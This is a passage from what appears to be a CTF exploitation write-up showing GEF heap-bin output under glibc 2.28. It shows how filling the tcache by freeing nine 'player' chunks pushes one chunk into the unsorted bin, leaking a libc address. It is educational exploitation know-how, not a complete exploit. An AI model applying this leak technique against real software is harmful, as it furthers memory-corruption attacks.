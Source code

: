 ### Finding the leak

I first tested exploiting against libc 2.28, which brings new bins not present in libc2.24: tcachebins. We can see by allocating and freeing a player, the chunks end in the tcache bins:
```
gef➤  heap bins
─────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7fb1cd194c40 ───────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x10] count=1  ←  Chunk(addr=0x55f3867ff7e0, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x55f3867ff800, size=0x90, flags=PREV_INUSE) 
──────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7fb1cd194c40 ────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

After allocating and freeing 9 players, one chunk ends up in the unsorted bin:

```
gef➤  heap bins
─────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7fb1cd194c40 ───────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x10] count=7  ←  Chunk(addr=0x55f3867ff3c0, size=0x20, flags=)  ←  Chunk(addr=0x55f3867ff470, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff520, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff5d0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff680, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff730, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff7e0, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=7, size=0x80] count=7  ←  Chunk(addr=0x55f3867ff3e0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff490, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff540, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff5f0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff6a0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff750, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff800, size=0x90, flags=PREV_INUSE) 
──────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7fb1cd194c40 ────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x55f3867ff280, size=0x20, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55f3867ff320, bk=0x55f3867ff320
 →   Chunk(addr=0x55f3867ff330, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
```

[heap]: 0x000055f3867ff330│+0x0330: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
[heap]: 0x000055f3867ff338│+0x0338: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000